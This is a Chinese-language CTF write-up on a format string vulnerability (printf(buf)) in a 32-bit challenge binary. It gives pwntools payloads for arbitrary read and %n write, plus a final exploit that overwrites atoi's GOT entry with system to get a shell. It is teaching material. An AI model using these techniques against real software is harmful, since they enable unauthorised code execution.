




## 0x001 程序分析

进入程序，查看main函数



首先获取一个随机数，保存到地址 **0x804c044** 中，然后接收输入用户名和密码，将密码转化为整数，与刚获取的随机数进行比较，如果相同，则可以直接获取系统权限。

## 0x002 漏洞分析

首先看下两处接收输入的地方，使用的是 **read** 函数，先读取 0x63 个字符保存到 **buf** 中，然后读取 0xf 个字符保存到 **nptr** 中。

由于 **buf** 的长度为 100，**nptr** 的长度为 16，因此都没有超过其最大长度，不存在栈溢出漏洞。

再看下输出的地方，可以看到在使用 **printf** 输出了 **Hello,** 之后，直接使用 **printf(buf)** 打印了 **buf** 的内容，因此这里由于 **printf** 的错误使用，导致了格式化字符串漏洞。

## 0x003 漏洞利用

使用checksec查看程序开启了那些保护：



开的栈溢出保护和 NX 不影响格式化字符串漏洞的利用。

首先获取输入内容在栈中相对于 **printf** 的偏移量。



在程序运行后输入 **AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p**，可以从打印的内容中看到，出现 **0x41414141** 时，输入内容相对于 **printf** 的偏移量为10。

### 格式化字符串漏洞的利用方法1-任意地址读

解题思路一，通过任意地址读，将保存在地址 **0x804c044** 中的随机数读出来，然后作为 **password** 写入，这样输入的内容就与随机数相同，可通过校验。

已知保存随机数的地址为 **0x804c044**，偏移量为n，可构造payload如下：
```
payload = p32(0x804c044) + b"%10$s"

p.recvuntil("your name:")
p.sendline(payload)

p.recvuntil("Hello,")
p.recv(4)
random_data = u32(p.recv(4))

p.recvuntil("your passwd:")
p.sendline(str(random_data))
```

可成功获取随机数，之后再将获取到的内容作为输入，可校验成功。（本地测试运行可成功获取系统权限，但是远程不行。。。网上的说法是这个随机数是从服务器读入的，无法知道内容。。。）

### 格式化字符串漏洞的利用方法2-任意地址写

解题思路二，通过任意地址写，将 **0x804c044** 中的随机数修改为任意值，然后在输入相同的值，即可校验成功。

可构造payload如下：

```
payload = p32(0x804c044) + b"%10$n"
```

解题思路三，通过任意地址写，将后面调用到的函数的GOT地址修改为 **system** 函数的PLT地址，然后再结合后面输入需要的参数，即可执行 **system("/bin/sh", 0)** 命令获取权限。

可使用pwntools提供的格式化字符串漏洞利用函数 **fmtstr_payload** 构造payload，修改任意地址内容，使用方式如下：

```
payload = fmtstr_payload(10, {atoi_got:system_plt})
```

第一次改的时候没多想，直接把 **puts** 函数的GOT改了，然后发现参数 **（"/bin/sh", 0)** 传不过去。。。后来看了看才发现，**atoi** 函数的参数是通过输入传过去的，修改 **atoi** 函数的GOT地址才是正解。。。

### 最终EXP如下：

```
from pwn import *

context(os='linux', log_level='debug')

p = process("./pwn")
elf = ELF("./pwn")

atoi_got = elf.got["atoi"]
system_plt = elf.plt["system"]

payload1 = p32(0x804c044) + b"%10$n"
payload2 = fmtstr_payload(10, {0x804c044: 1})
payload3 = fmtstr_payload(10, {atoi_got: system_plt})

p.recvuntil("your name:")
p.sendline(payload3)

payload1 = b"4"
payload2 = b"1"
payload3 = b"/bin/bash\x00"

p.recvuntil("your passwd:")
p.sendline(payload3)

p.interactive()
```

## 0x004 格式化字符串漏洞利用小结

格式化字符串漏洞任意地址读取：



> %x : 以十六进制形式打印栈中 **数据A** 的值

> %d : 以十进制形式打印栈中 **数据A** 的值

> %p : 以指针形式（十六进制）打印栈中 **数据A** 的值

> %s : 以字符串形式打印栈中 **数据B** 的值

通过 **%n$x** 可以打印栈中任意位置 **数据A** 的值，或者通过 **%n$s** 可以打印栈中任意位置 **数据B** 的值，n为偏移量控制栈的位置，一般 n>=1。

也可以使用 **地址+%n$s** 打印任意地址中保存的内容，此时 **n** 为输入内容相对于 **printf** 的偏移量。